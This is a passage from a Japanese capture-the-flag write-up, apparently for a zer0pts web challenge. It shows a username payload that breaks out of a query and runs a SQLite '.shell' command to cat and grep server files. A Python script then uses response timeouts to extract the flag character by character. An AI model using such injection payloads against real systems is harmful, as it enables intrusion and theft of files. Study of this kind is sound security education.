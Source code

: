 とりあえず
```
";\n.shell cat */*|grep s{prefix&&top\n
```
でだいぶ短くなりました。
文字数は `31 + len(prefix)` です。厳しい。

これより短くする方法がしばらく思いつかなかったのですが、grepの引数のところで3文字まで使えることから、3文字ずつ判定するクエリを投げる方法でフラグを確定できないかと考え、スクリプトを書きました。

### 攻撃

できたスクリプトはこちらです。

```python
import httpx
import string

chars = "_}" + string.ascii_letters + string.digits

url = "http://web.ctf.zer0pts.com:8004/login"
# url = "http://localhost:8004/login"


def query(prefix: str) -> bool:
    n = 3
    chunk = prefix[-n:]
    payload = '";\n.shell cat */*|grep ' + chunk + '&&top\n'
    data = {
        "username": payload,
        "password": "abc",
    }

    try:
        res = httpx.post(url, data=data, timeout=3)
        assert res.status_code == 200
        assert "Too long username or password" not in res.text
        return False
    except httpx.ReadTimeout:
        return True


def rec(current_prefix: str) -> bool:
    if current_prefix.endswith("}"):
        print("result: ", current_prefix)
        return True

    print(current_prefix)
    for c in chars:
        prefix = current_prefix + c
        if query(prefix):
            if rec(prefix):
                return True
    return False


prefix = "zer0pts{"  # zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4
rec(prefix)
```


[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet
